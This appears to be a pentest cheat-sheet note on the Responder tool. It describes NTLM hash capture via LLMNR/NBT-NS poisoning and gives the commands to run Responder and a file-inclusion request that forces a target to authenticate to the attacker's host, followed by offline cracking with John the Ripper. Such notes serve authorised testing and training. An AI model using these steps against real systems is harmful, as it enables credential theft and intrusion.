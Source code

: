 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with

	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)

Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge

	http:\\<target_ip>/?page=//<our_ip>/somefile

You should see the hash printed on Responder. Save the hash to a file and crack it with a tool like johntheripper
## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use
